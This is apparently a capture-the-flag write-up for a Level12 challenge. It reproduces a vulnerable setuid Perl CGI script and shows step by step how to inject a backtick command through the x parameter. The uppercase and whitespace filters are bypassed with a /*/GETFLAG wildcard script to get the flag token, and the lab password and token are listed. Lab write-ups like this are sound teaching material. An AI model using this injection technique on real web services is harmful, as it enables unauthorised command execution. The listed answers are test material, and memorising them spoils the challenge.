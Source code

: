 # Level12 - Flag12

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level12 | `fa6v5ateaw21peobuub8ipe6s` |
| flag12  |                             |
| token   | `g1qKMiRpXf53AWhDaU7FEkczr` |

## Steps to resolve on VM

1. Connect to `level12` user and notice there is a lua script with setuid bit

```bash
ssh level12@$SNOW_HOST -p 4242
# Enter the password

ls -l

> -rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

2. Check the file

```bash
cat level12.pl
```

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; # param y
  $xx = $_[0]; # param x
  $xx =~ tr/a-z/A-Z/; # param x - to uppercase
  $xx =~ s/\s.*//;    # param x - remove everything after the first whitespace
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) { # t result
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

While reading the script, we can see what the program do.

Nothing very interesting, but we can use the x parameter to inject a command.

But it's a little bit tricky, because there is a first translation from lowercase to uppercase. And then a substitute expression that removes everything after the first whitespace. So we need to deal with.

In addition, we can notice "localhost:4646"

3. Check ports

Is 4646 port open ?

```bash
netstat -tulpn | grep 4646

> Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
> tcp6       0      0 :::4646                 :::*                    LISTEN      -
```

Yes it is !

Is the program up ?

```bash
curl localhost:4646

> ..
```

Yes it is ! That's a good news. It just print "..", but it is up.

4. Create an uppercase `GETFLAG` script

We have to deal with lowercase substitution and avoid whitespaces

```bash
echo "getflag > /tmp/out" > /tmp/GETFLAG
chmod +x /tmp/GETFLAG
```

We have an other problem. How deal with `tmp` that is lowercase ?

The solution `PATH=/tmp:$PATH` does not work, because flag12 environment is used instead of level12 environment. Neither aliases

Maybe a wildcard ?

```bash
/*/GETFLAG
cat /tmp/out

> Check flag.Here is your token :
> Nope there is no token here for you sorry. Try again :)
```

It perfectly works !

Now we have to inject this command through the server

5. Exploit subshell while injecting a command

```bash
curl -s localhost:4646?x=\`/*/GETFLAG\`
```

6. Get level flag

Finally, read `/tmp/out`

```bash
cat /tmp/out

> Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

---

## Sources

### Shell

- [Check ports in use](https://www.cyberciti.biz/faq/unix-linux-check-if-port-is-in-use-command/)

